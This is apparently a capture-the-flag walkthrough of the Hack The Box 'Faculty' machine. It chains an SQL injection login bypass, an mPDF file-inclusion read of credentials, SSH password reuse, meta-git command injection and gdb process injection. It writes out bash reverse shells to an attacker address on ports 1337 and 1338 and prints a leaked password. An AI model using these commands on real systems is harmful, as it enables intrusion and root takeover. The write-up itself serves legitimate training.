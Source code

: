 # [Faculty](https://app.hackthebox.com/machines/faculty)

```bash
nmap -p- --min-rate 10000 10.10.11.169 -Pn
```

![alt text](img/image.png)

After detection of open ports, let's do greater nmap scan for these ports.

```bash
nmap -A -sC -sV -p22,80 10.10.11.169 -Pn 
```

![alt text](img/image-1.png)


From nmap scan result, I see that this ip address is resolved into `faculty.htb` domain name, let's add this `/etc/hosts` file.


If we open web application, we can see such page.

![alt text](img/image-2.png)

Let's do `Directory Enumeration`.

```bash
gobuster dir -u http://faculty.htb/ -w /usr/share/seclists/Discovery/Web-Content/raft-small-words-lowercase.txt -t 40 -x php,txt
```

![alt text](img/image-3.png)


Let's access into `/admin` endpoint and I can see basic authentication here.

![alt text](img/image-4.png)


Let's add `SQL Injection` payloads to bypass authentication.


![alt text](img/image-5.png)


Now, I am on home page and bypassed successfully authentication via `SQL Injection`.

![alt text](img/image-6.png)


There's option to download `.pdf` file, it is generated by using `mpdf`.

![alt text](img/image-7.png)


Let's download this `.pdf` file and look at metadata of this via `exiftool` command.

![alt text](img/image-8.png)


This is `mPDF` and version of this is `6.0`.

I searched and find `Local File Inclusion` LFI attack for `mpdf` from [here](https://github.com/mpdf/mpdf/issues/356).

Let's abuse this.

For this, while we request to `/admin/download.php` file, we need to write below input into here to read `sensitive` files such as `/etc/passwd`.


![alt text](img/image-9.png)


Then, we need to write this data into `pdf` parameter while sending request to `/admin/download.php`.

![alt text](img/image-11.png)


After submission of file, I can see `/etc/passwd` file as below.

![alt text](img/image-10.png)


From enumeration of `/etc/passwd` file, I see that `syslog`,`gbyolo` and `developer` users are normal users.

![alt text](img/image-12.png)


To get `db_connect.php` file, I prepare below payload to submit.

First, I create proper data for `pdf` parameter.

![alt text](img/image-13.png)


Second, we submit this crafted payload.

![alt text](img/image-14.png)


By reading `db_connect.php` file, I got valid credentials from here.

![alt text](img/image-15.png)

Password: Co.met06aci.dly53ro.per


Let's check this password for valid users which we mentioned before.For this, I will use `crackmapexec` command to find correct user for this password.
```bash
crackmapexec ssh faculty.htb -u users.txt -p "Co.met06aci.dly53ro.per"
```

![alt text](img/image-16.png)


Let's login into machine via this credentials.

![alt text](img/image-17.png)


While looking at privileges of this user via `sudo -l` command, I see `meta-git`.

![alt text](img/image-18.png)


I found `Privilege Escalation` technique on [Hackerone's post](https://hackerone.com/reports/728040).

Let's abuse this.

```bash
sudo -u developer meta-git clone 'dr4ks||touch dr4ks'
```

![alt text](img/image-19.png)


As you see file owner is `developer`.

Now, it's time for adding reverse shell into here.

First, I craete below malicious `dr4ks.sh` file.
```bash
#!/bin/bash

bash -i >& /dev/tcp/10.10.14.18/1337 0>&1
```

Secondly, we need to run this `.sh` file via `developer` user for this, I do below payload.
```bash
sudo -u developer meta-git clone 'dr4ks||bash /tmp/dr4ks.sh'
```

![alt text](img/image-20.png)


Hola, I got reverse shell from port `1337`.

![alt text](img/image-21.png)


user.txt

![alt text](img/image-22.png)


While I run `id` command, I see that `developer` user belongs to `debug` group.

![alt text](img/image-23.png)


I searced files which I have access via this `debug` group.
```bash
find / -group debug 2>/dev/null
```

![alt text](img/image-24.png)

I see that I have privilege to run `/usr/bin/gdb` binary.


Let's search `root` processes via `ps aux | grep root` command.

![alt text](img/image-25.png)


I see `Python` process called `/usr/bin/python3 /usr/bin/networkd-dispatcher --run-startup-triggers`, it means I can execute whatever I want via this process.


We just grab this process_id (730) and enters via `gdb` tool.

```bash
gdb -p 730
```

Then, we can call this `Python` function to get reverse shell.
```bash
call (void)system("bash -c 'bash -i >& /dev/tcp/10.10.14.18/1338 0>&1'")
```

![alt text](img/image-27.png)


Hola, I got reverse shell from port `1338`.

![alt text](img/image-26.png)


root.txt

![alt text](img/image-28.png)